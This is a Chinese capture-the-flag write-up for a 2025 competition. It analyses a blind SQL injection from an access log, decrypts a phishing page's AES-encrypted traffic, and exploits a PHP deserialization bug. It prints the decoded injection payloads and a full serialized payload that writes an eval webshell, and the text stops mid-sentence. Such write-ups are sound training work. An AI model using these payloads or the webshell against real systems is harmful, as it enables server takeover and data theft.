# 2025 黑灰产检测技能大赛-黑灰产技术反制赛道WP-先知社区

> **来源**: https://xz.aliyun.com/news/18912  
> **文章ID**: 18912

---

# MISC

## 数据安全风险研判

### 第一问

> 攻击者ip

就这一个ip`192.168.52.1`。如果存在多个ip，可以根据最确定的攻击记录判断，如扫描器记录。

### 第二问

> 攻击者使用什么注入方式进行攻击的

往下看记录，`/account_details.php?encoded_id=`参数存在大量base64编码内容，随便拿一个解码

```
QUNDMDAxJyBBTkQgU1VCU1RSSU5HKChTRUxFQ1QgZGF0YWJhc2UoKSksMSwxKT0nMCc7Iw

ACC001' AND SUBSTRING((SELECT database()),1,1)='0';#
```

单纯比对字符，是布尔盲注。实际上这种题目一般要么是布尔盲注，要么是时间盲注，看见=><就是布尔，出现sleep函数就是时间。

### 第三问

> 攻击者是否使用了工具，如果有使用，使用的工具名为？

有一大堆扫描记录，ua头是`"Dirsearch\\0.4.3"`，工具名称就是`Dirsearch`，首字母要大写。

就算有些时候ua头进行了伪装，看见大批量的不相干路由访问也可以确定是扫描器，不过对于工具名称就难以判断了。

### 第四问

> 攻击者成功注入了一个管理员的机密信息,将攻击者成功注入的数据md5解密提交flag

可以观察到响应长度一种是1967，一种是2095，后者更多，显然是查询成功的结果，写脚本提取所有成功结果

```
import base64
def parse_log(filename,average):
    with open(filename, 'r') as f:
        for line in f:
            parts = line.split()
            if len(parts) < 10:
                continue
            size_str = parts[-3]
            if size_str == '-':
                size = 0
            else:
                try:
                    size = int(size_str)
                except ValueError:
                    continue
            if size >= average:
                a=(line.strip().split()[-6][32:])
                
                decoded_data = base64.b64decode(a).decode("utf-8")
                print(decoded_data)

if __name__ == '__main__':
    average = 2095
    parse_log('access.log',average)
```

结果：

```
ACC001' AND SUBSTRING((SELECT database()),1,1)='f';#
ACC001' AND SUBSTRING((SELECT database()),2,1)='i';#
ACC001' AND SUBSTRING((SELECT database()),3,1)='n';#
ACC001' AND SUBSTRING((SELECT database()),4,1)='a';#
ACC001' AND SUBSTRING((SELECT database()),5,1)='n';#
ACC001' AND SUBSTRING((SELECT database()),6,1)='c';#
ACC001' AND SUBSTRING((SELECT database()),7,1)='e';#
ACC001' AND SUBSTRING((SELECT database()),8,1)='_';#
ACC001' AND SUBSTRING((SELECT database()),9,1)='d';#
ACC001' AND SUBSTRING((SELECT database()),10,1)='b';#
ACC001' AND SUBSTRING((SELECT table_name FROM information_schema.tables where table_schema='finance_db' limit 0,1),1,1)='a';#
ACC001' AND SUBSTRING((SELECT table_name FROM information_schema.tables where table_schema='finance_db' limit 0,1),2,1)='c';#
ACC001' AND SUBSTRING((SELECT table_name FROM information_schema.tables where table_schema='finance_db' limit 0,1),3,1)='c';#
ACC001' AND SUBSTRING((SELECT table_name FROM information_schema.tables where table_schema='finance_db' limit 0,1),4,1)='e';#
ACC001' AND SUBSTRING((SELECT table_name FROM information_schema.tables where table_schema='finance_db' limit 0,1),5,1)='s';#
ACC001' AND SUBSTRING((SELECT table_name FROM information_schema.tables where table_schema='finance_db' limit 0,1),6,1)='s';#
ACC001' AND SUBSTRING((SELECT table_name FROM information_schema.tables where table_schema='finance_db' limit 0,1),7,1)='_';#
ACC001' AND SUBSTRING((SELECT table_name FROM information_schema.tables where table_schema='finance_db' limit 0,1),8,1)='l';#
ACC001' AND SUBSTRING((SELECT table_name FROM information_schema.tables where table_schema='finance_db' limit 0,1),9,1)='o';#
ACC001' AND SUBSTRING((SELECT table_name FROM information_schema.tables where table_schema='finance_db' limit 0,1),10,1)='g';#
ACC001' AND SUBSTRING((SELECT table_name FROM information_schema.tables where table_schema='finance_db' limit 0,1),11,1)='s';#
ACC001' AND SUBSTRING((SELECT table_name FROM information_schema.tables where table_schema='finance_db' limit 1,1),1,1)='s';#
ACC001' AND SUBSTRING((SELECT table_name FROM information_schema.tables where table_schema='finance_db' limit 1,1),2,1)='e';#
ACC001' AND SUBSTRING((SELECT table_name FROM information_schema.tables where table_schema='finance_db' limit 1,1),3,1)='n';#
ACC001' AND SUBSTRING((SELECT table_name FROM information_schema.tables where table_schema='finance_db' limit 1,1),4,1)='s';#
ACC001' AND SUBSTRING((SELECT table_name FROM information_schema.tables where table_schema='finance_db' limit 1,1),5,1)='i';#
ACC001' AND SUBSTRING((SELECT table_name FROM information_schema.tables where table_schema='finance_db' limit 1,1),6,1)='t';#
ACC001' AND SUBSTRING((SELECT table_name FROM information_schema.tables where table_schema='finance_db' limit 1,1),7,1)='i';#
ACC001' AND SUBSTRING((SELECT table_name FROM information_schema.tables where table_schema='finance_db' limit 1,1),8,1)='v';#
ACC001' AND SUBSTRING((SELECT table_name FROM information_schema.tables where table_schema='finance_db' limit 1,1),9,1)='e';#
ACC001' AND SUBSTRING((SELECT table_name FROM information_schema.tables where table_schema='finance_db' limit 1,1),10,1)='_';#
ACC001' AND SUBSTRING((SELECT table_name FROM information_schema.tables where table_schema='finance_db' limit 1,1),11,1)='d';#
ACC001' AND SUBSTRING((SELECT table_name FROM information_schema.tables where table_schema='finance_db' limit 1,1),12,1)='a';#
ACC001' AND SUBSTRING((SELECT table_name FROM information_schema.tables where table_schema='finance_db' limit 1,1),13,1)='t';#
ACC001' AND SUBSTRING((SELECT table_name FROM information_schema.tables where table_schema='finance_db' limit 1,1),14,1)='a';#
ACC001' AND SUBSTRING((SELECT table_name FROM information_schema.tables where table_schema='finance_db' limit 2,1),1,1)='s';#
ACC001' AND SUBSTRING((SELECT table_name FROM information_schema.tables where table_schema='finance_db' limit 2,1),2,1)='y';#
ACC001' AND SUBSTRING((SELECT table_name FROM information_schema.tables where table_schema='finance_db' limit 2,1),3,1)='s';#
ACC001' AND SUBSTRING((SELECT table_name FROM information_schema.tables where table_schema='finance_db' limit 2,1),4,1)='t';#
ACC001' AND SUBSTRING((SELECT table_name FROM information_schema.tables where table_schema='finance_db' limit 2,1),5,1)='e';#
ACC001' AND SUBSTRING((SELECT table_name FROM information_schema.tables where table_schema='finance_db' limit 2,1),6,1)='m';#
ACC001' AND SUBSTRING((SELECT table_name FROM information_schema.tables where table_schema='finance_db' limit 2,1),7,1)='_';#
ACC001' AND SUBSTRING((SELECT table_name FROM information_schema.tables where table_schema='finance_db' limit 2,1),8,1)='c';#
ACC001' AND SUBSTRING((SELECT table_name FROM information_schema.tables where table_schema='finance_db' limit 2,1),9,1)='o';#
ACC001' AND SUBSTRING((SELECT table_name FROM information_schema.tables where table_schema='finance_db' limit 2,1),10,1)='n';#
ACC001' AND SUBSTRING((SELECT table_name FROM information_schema.tables where table_schema='finance_db' limit 2,1),11,1)='f';#
ACC001' AND SUBSTRING((SELECT table_name FROM information_schema.tables where table_schema='finance_db' limit 2,1),12,1)='i';#
ACC001' AND SUBSTRING((SELECT table_name FROM information_schema.tables where table_schema='finance_db' limit 2,1),13,1)='g';#
ACC001' AND SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_schema='finance_db' AND table_name='sensitive_data' limit 0,1),1,1)='i';#
ACC001' AND SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_schema='finance_db' AND table_name='sensitive_data' limit 0,1),2,1)='d';#
ACC001' AND SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_schema='finance_db' AND table_name='sensitive_data' limit 1,1),1,1)='d';#
ACC001' AND SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_schema='finance_db' AND table_name='sensitive_data' limit 1,1),2,1)='a';#
ACC001' AND SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_schema='finance_db' AND table_name='sensitive_data' limit 1,1),3,1)='t';#
ACC001' AND SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_schema='finance_db' AND table_name='sensitive_data' limit 1,1),4,1)='a';#
ACC001' AND SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_schema='finance_db' AND table_name='sensitive_data' limit 1,1),5,1)='_';#
ACC001' AND SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_schema='finance_db' AND table_name='sensitive_data' limit 1,1),6,1)='k';#
ACC001' AND SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_schema='finance_db' AND table_name='sensitive_data' limit 1,1),7,1)='e';#
ACC001' AND SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_schema='finance_db' AND table_name='sensitive_data' limit 1,1),8,1)='y';#
ACC001' AND SUBSTRING((SELECT data_key FROM finance_db.sensitive_data limit 1,1),1,1)='s';#
ACC001' AND SUBSTRING((SELECT data_key FROM finance_db.sensitive_data limit 1,1),2,1)='e';#
ACC001' AND SUBSTRING((SELECT data_key FROM finance_db.sensitive_data limit 1,1),3,1)='c';#
ACC001' AND SUBSTRING((SELECT data_key FROM finance_db.sensitive_data limit 1,1),4,1)='r';#
ACC001' AND SUBSTRING((SELECT data_key FROM finance_db.sensitive_data limit 1,1),5,1)='e';#
ACC001' AND SUBSTRING((SELECT data_key FROM finance_db.sensitive_data limit 1,1),6,1)='t';#
ACC001' AND SUBSTRING((SELECT data_key FROM finance_db.sensitive_data limit 0,1),1,1)='f';#
ACC001' AND SUBSTRING((SELECT data_key FROM finance_db.sensitive_data limit 0,1),2,1)='l';#
ACC001' AND SUBSTRING((SELECT data_key FROM finance_db.sensitive_data limit 0,1),3,1)='a';#
ACC001' AND SUBSTRING((SELECT data_key FROM finance_db.sensitive_data limit 0,1),4,1)='g';#
ACC001' AND SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_schema='finance_db' AND table_name='sensitive_data' limit 2,1),1,1)='d';#
ACC001' AND SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_schema='finance_db' AND table_name='sensitive_data' limit 2,1),2,1)='a';#
ACC001' AND SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_schema='finance_db' AND table_name='sensitive_data' limit 2,1),3,1)='t';#
ACC001' AND SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_schema='finance_db' AND table_name='sensitive_data' limit 2,1),4,1)='a';#
ACC001' AND SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_schema='finance_db' AND table_name='sensitive_data' limit 2,1),5,1)='_';#
ACC001' AND SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_schema='finance_db' AND table_name='sensitive_data' limit 2,1),6,1)='v';#
ACC001' AND SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_schema='finance_db' AND table_name='sensitive_data' limit 2,1),7,1)='a';#
ACC001' AND SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_schema='finance_db' AND table_name='sensitive_data' limit 2,1),8,1)='l';#
ACC001' AND SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_schema='finance_db' AND table_name='sensitive_data' limit 2,1),9,1)='u';#
ACC001' AND SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_schema='finance_db' AND table_name='sensitive_data' limit 2,1),10,1)='e';#
ACC001' AND SUBSTRING((SELECT data_value FROM finance_db.sensitive_data WHERE data_key='flag' limit 0,1),1,1)='f';#
ACC001' AND SUBSTRING((SELECT data_value FROM finance_db.sensitive_data WHERE data_key='flag' limit 0,1),2,1)='l';#
ACC001' AND SUBSTRING((SELECT data_value FROM finance_db.sensitive_data WHERE data_key='flag' limit 0,1),3,1)='a';#
ACC001' AND SUBSTRING((SELECT data_value FROM finance_db.sensitive_data WHERE data_key='flag' limit 0,1),4,1)='g';#
ACC001' AND SUBSTRING((SELECT data_value FROM finance_db.sensitive_data WHERE data_key='flag' limit 0,1),5,1)='{';#
ACC001' AND SUBSTRING((SELECT data_value FROM finance_db.sensitive_data WHERE data_key='flag' limit 0,1),6,1)='f';#
ACC001' AND SUBSTRING((SELECT data_value FROM finance_db.sensitive_data WHERE data_key='flag' limit 0,1),7,1)='a';#
ACC001' AND SUBSTRING((SELECT data_value FROM finance_db.sensitive_data WHERE data_key='flag' limit 0,1),8,1)='k';#
ACC001' AND SUBSTRING((SELECT data_value FROM finance_db.sensitive_data WHERE data_key='flag' limit 0,1),9,1)='e';#
ACC001' AND SUBSTRING((SELECT data_value FROM finance_db.sensitive_data WHERE data_key='flag' limit 0,1),10,1)='_';#
ACC001' AND SUBSTRING((SELECT data_value FROM finance_db.sensitive_data WHERE data_key='flag' limit 0,1),11,1)='f';#
ACC001' AND SUBSTRING((SELECT data_value FROM finance_db.sensitive_data WHERE data_key='flag' limit 0,1),12,1)='l';#
ACC001' AND SUBSTRING((SELECT data_value FROM finance_db.sensitive_data WHERE data_key='flag' limit 0,1),13,1)='a';#
ACC001' AND SUBSTRING((SELECT data_value FROM finance_db.sensitive_data WHERE data_key='flag' limit 0,1),14,1)='g';#
ACC001' AND SUBSTRING((SELECT data_value FROM finance_db.sensitive_data WHERE data_key='flag' limit 0,1),15,1)='}';#
ACC001' AND SUBSTRING((SELECT data_key FROM finance_db.sensitive_data  limit 1,1),1,1)='s';#
ACC001' AND SUBSTRING((SELECT data_key FROM finance_db.sensitive_data  limit 1,1),2,1)='e';#
ACC001' AND SUBSTRING((SELECT data_key FROM finance_db.sensitive_data  limit 1,1),3,1)='c';#
ACC001' AND SUBSTRING((SELECT data_key FROM finance_db.sensitive_data  limit 1,1),4,1)='r';#
ACC001' AND SUBSTRING((SELECT data_key FROM finance_db.sensitive_data  limit 1,1),5,1)='e';#
ACC001' AND SUBSTRING((SELECT data_key FROM finance_db.sensitive_data  limit 1,1),6,1)='t';#
ACC001' AND SUBSTRING((SELECT data_value FROM finance_db.sensitive_data WHERE data_key='secret' limit 0,1),1,1)='0';#
ACC001' AND SUBSTRING((SELECT data_value FROM finance_db.sensitive_data WHERE data_key='secret' limit 0,1),2,1)='f';#
ACC001' AND SUBSTRING((SELECT data_value FROM finance_db.sensitive_data WHERE data_key='secret' limit 0,1),3,1)='3';#
ACC001' AND SUBSTRING((SELECT data_value FROM finance_db.sensitive_data WHERE data_key='secret' limit 0,1),4,1)='5';#
ACC001' AND SUBSTRING((SELECT data_value FROM finance_db.sensitive_data WHERE data_key='secret' limit 0,1),5,1)='9';#
ACC001' AND SUBSTRING((SELECT data_value FROM finance_db.sensitive_data WHERE data_key='secret' limit 0,1),6,1)='7';#
ACC001' AND SUBSTRING((SELECT data_value FROM finance_db.sensitive_data WHERE data_key='secret' limit 0,1),7,1)='4';#
ACC001' AND SUBSTRING((SELECT data_value FROM finance_db.sensitive_data WHERE data_key='secret' limit 0,1),8,1)='0';#
ACC001' AND SUBSTRING((SELECT data_value FROM finance_db.sensitive_data WHERE data_key='secret' limit 0,1),9,1)='b';#
ACC001' AND SUBSTRING((SELECT data_value FROM finance_db.sensitive_data WHERE data_key='secret' limit 0,1),10,1)='d';#
ACC001' AND SUBSTRING((SELECT data_value FROM finance_db.sensitive_data WHERE data_key='secret' limit 0,1),11,1)='1';#
ACC001' AND SUBSTRING((SELECT data_value FROM finance_db.sensitive_data WHERE data_key='secret' limit 0,1),12,1)='c';#
ACC001' AND SUBSTRING((SELECT data_value FROM finance_db.sensitive_data WHERE data_key='secret' limit 0,1),13,1)='d';#
ACC001' AND SUBSTRING((SELECT data_value FROM finance_db.sensitive_data WHERE data_key='secret' limit 0,1),14,1)='a';#
ACC001' AND SUBSTRING((SELECT data_value FROM finance_db.sensitive_data WHERE data_key='secret' limit 0,1),15,1)='9';#
ACC001' AND SUBSTRING((SELECT data_value FROM finance_db.sensitive_data WHERE data_key='secret' limit 0,1),16,1)='9';#
ACC001' AND SUBSTRING((SELECT data_value FROM finance_db.sensitive_data WHERE data_key='secret' limit 0,1),17,1)='4';#
ACC001' AND SUBSTRING((SELECT data_value FROM finance_db.sensitive_data WHERE data_key='secret' limit 0,1),18,1)='f';#
ACC001' AND SUBSTRING((SELECT data_value FROM finance_db.sensitive_data WHERE data_key='secret' limit 0,1),19,1)='8';#
ACC001' AND SUBSTRING((SELECT data_value FROM finance_db.sensitive_data WHERE data_key='secret' limit 0,1),20,1)='b';#
ACC001' AND SUBSTRING((SELECT data_value FROM finance_db.sensitive_data WHERE data_key='secret' limit 0,1),21,1)='5';#
ACC001' AND SUBSTRING((SELECT data_value FROM finance_db.sensitive_data WHERE data_key='secret' limit 0,1),22,1)='5';#
ACC001' AND SUBSTRING((SELECT data_value FROM finance_db.sensitive_data WHERE data_key='secret' limit 0,1),23,1)='3';#
ACC001' AND SUBSTRING((SELECT data_value FROM finance_db.sensitive_data WHERE data_key='secret' limit 0,1),24,1)='3';#
ACC001' AND SUBSTRING((SELECT data_value FROM finance_db.sensitive_data WHERE data_key='secret' limit 0,1),25,1)='0';#
ACC001' AND SUBSTRING((SELECT data_value FROM finance_db.sensitive_data WHERE data_key='secret' limit 0,1),26,1)='c';#
ACC001' AND SUBSTRING((SELECT data_value FROM finance_db.sensitive_data WHERE data_key='secret' limit 0,1),27,1)='8';#
ACC001' AND SUBSTRING((SELECT data_value FROM finance_db.sensitive_data WHERE data_key='secret' limit 0,1),28,1)='6';#
ACC001' AND SUBSTRING((SELECT data_value FROM finance_db.sensitive_data WHERE data_key='secret' limit 0,1),29,1)='d';#
ACC001' AND SUBSTRING((SELECT data_value FROM finance_db.sensitive_data WHERE data_key='secret' limit 0,1),30,1)='8';#
ACC001' AND SUBSTRING((SELECT data_value FROM finance_db.sensitive_data WHERE data_key='secret' limit 0,1),31,1)='4';#
ACC001' AND SUBSTRING((SELECT data_value FROM finance_db.sensitive_data WHERE data_key='secret' limit 0,1),32,1)='5';#
```

最后查询`SELECT data_value FROM finance_db.sensitive_data WHERE data_key='secret`的是0f开头，就是md5，全提取出来就是答案

`0f359740bd1cda994f8b55330c86d845`

这里题目描述的有问题，实际上是提交md5本身，而不是md5解密，这个md5解密结果是`p@ssw0rd`，但是提交不了，最后试了md5才成功

​

如果遇到日志长度没这么有规律的，也可以计算每一段的长度平均值，大于平均值的即成功结果，附上脚本，陇剑杯2021年的misc题目就有类似的

```
# 
#!/usr/bin/env python3
number = []
def count(filename):
    with open(filename, 'r') as f:
        for line in f:
            parts = line.split()
            if len(parts) < 10:
                continue
            size_str = parts[-3]  # 第10个字段（索引9）
            try:
                size = int(size_str)
                number.append(size)
            except ValueError:
                continue
            
    average = int(sum(number) / len(number))
    return average

def parse_log(filename,average):
    with open(filename, 'r') as f:
        for line in f:
            parts = line.split()
            if len(parts) < 10:
                continue
            size_str = parts[-3]  # 第10个字段（索引9）
            if size_str == '-':
                size = 0
            else:
                try:
                    size = int(size_str)
                except ValueError:
                    continue
            if size > average:
                print(line.strip())

if __name__ == '__main__':
    average = count('access.log')
    parse_log('access.log',average)
```

如果非要用传统派，手工看的话，使用LogTrawl可以更直观的查看log类文件，支持很多种搜索过滤功能。

# WEB

## 套壳

### 第一问

> 破解攻击者传输隐藏数据的核心算法

进入网站，资源文件没有js，需要点进查询界面，才有混淆的js



正常看见这一坨混淆代码很头疼，可以用两种方式。一种是打断点追踪函数调用，看每一步内存变量都是什么，可以参考文章[链接](https://xz.aliyun.com/news/14066)

另一种就是使用浏览器自带的解密功能。

随便往下看看，能找到这样一行代码

​



PKCS5是AES加密要用到的填充，这个值被赋予了某个数组中某个键，复制数组名称，放到控制台里面：



这样就得到所有加密函数信息了，第一问答案就是AES

```
{
    "algorithm": "AES",
    "mode": "CBC",
    "padding": "PKCS5Padding",
    "output": "Base64",
    "key": "XDcS8sce3c9aPvBJH5uYz2dJT7xm4bLK",
    "iv": "Qm5c7HNK3aLxP8zW"
}
```

### 第二问

> 提取用于解密的 “钥匙”（Key:IV），还原窃取的敏感信息

第二问参考第一问即可`XDcS8sce3c9aPvBJH5uYz2dJT7xm4bLK:Qm5c7HNK3aLxP8zW`

### 第三问

> 追溯攻击者真实的数据接收 URL

有了密钥就随便了，点立即查询，随便输入信息，抓包



可以看见左右都有加密数据，挨个看。

左边的解密，用这个网站[在线AES解密](https://toolbox.antnova.com/encrypt/aes)（找了好几个就这个能用），解开就是我们最开始在网页内输入的信息

```
{"grokname":"credit_query","userInfo":{"realName":"1","idCard":"1","phone":"1","bankCard":"1","bankPassword":"1"},"timestamp":1757828553638}
```

右边返回结果也解密一下

```
{"success":true,"message":"请求处理成功","data":{"message":"用户信息已接收,转发至http://asfiag.1823amgaf.com/api/Content","userId":"USER_1757828553387_eubqzpkz6","status":"success"},"timestamp":"2025-09-14T05:42:33.387Z"}
```

可以看见发送的目标url`http://asfiag.1823amgaf.com/api/Content`，这就是答案

### 第四问

> 拦截并反击后台渗透行为，夺取后台控制权，同时定位后台中姓名为 flag 用户的 ID

扫目录，能找到`admin.html`

​



账密写源码里了

​



登进去就能看见姓名为flag的用户



id即为flag`Success_attack_my_websit`

## 业务安全数据溯源与解密

### 第一问

> 是精准定位攻击者进入服务器所使用的攻击手法，明确攻击路径

审计源码,api.php中,可以反序列化生成User对象

​



User对象在析构函数中, 能调用system执行命令.

通过反序列化漏洞, 写入webshell.

Payload:

```
O:4:"User":8:{s:2:"id";s:3:"123";s:8:"username";s:4:"tset";s:5:"email";s:11:"123@123.com";s:4:"role";s:8:"customer";s:10:"created_at";N;s:7:"profile";N;s:7:"command";s:40:"echo '<?php eval($_POST[1]); ?>' > 2.php";s:7:"logFile";N;}

base64编码
Tzo0OiJVc2VyIjo4OntzOjI6ImlkIjtzOjM6IjEyMyI7czo4OiJ1c2VybmFtZSI7czo0OiJ0c2V0IjtzOjU6ImVtYWlsIjtzOjExOiIxMjNAMTIzLmNvbSI7czo0OiJyb2xlIjtzOjg6ImN1c3RvbWVyIjtzOjEwOiJjcmVhdGVkX2F0IjtOO3M6NzoicHJvZmlsZSI7TjtzOjc6ImNvbW1hbmQiO3M6NDA6ImVjaG8gJzw/cGhwIGV2YWwoJF9QT1NUWzFdKTsgPz4nID4gMi5waHAiO3M6NzoibG9nRmlsZSI7Tjt9
```

第一个答案就是反序列化

### 第二问

没看明白题让我干啥，也没看明白flag要交什么，0解

### 第三问

> 找到被加密的机密文件，完成解密并获取核心内容

蚁剑连接成功

​



然后发现flag.enc,和解密脚本:

​





在config.php中拿到秘钥:

